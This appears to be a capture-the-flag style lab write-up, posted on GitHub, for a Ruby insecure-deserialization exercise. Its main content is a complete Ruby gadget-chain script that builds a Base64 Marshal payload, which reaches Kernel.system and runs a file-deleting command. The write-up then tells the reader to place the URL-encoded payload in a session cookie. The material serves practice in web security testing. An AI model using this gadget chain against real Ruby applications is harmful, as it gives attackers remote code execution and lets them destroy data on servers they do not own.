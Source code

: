 ## Lab Description :

![image](https://github.com/user-attachments/assets/be3ff9e3-7ad1-4df1-913c-23c05d4bacf4)

## Solution :

Login to the site as wiener using the credentials provided.

![image](https://github.com/user-attachments/assets/24c83d29-c858-43da-ab33-1f299f93028c)

> Good read - https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html 

```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```
> Ruby 2.x compiler - https://domsignal.com/ruby-online-compiler

![image](https://github.com/user-attachments/assets/863bc652-56b5-4715-8058-417c24f18d94)

URL - encode the cookie value obtained & replace it in the cookie part.

![image](https://github.com/user-attachments/assets/b27c8e16-bab1-44d3-90a2-adc99598155d)

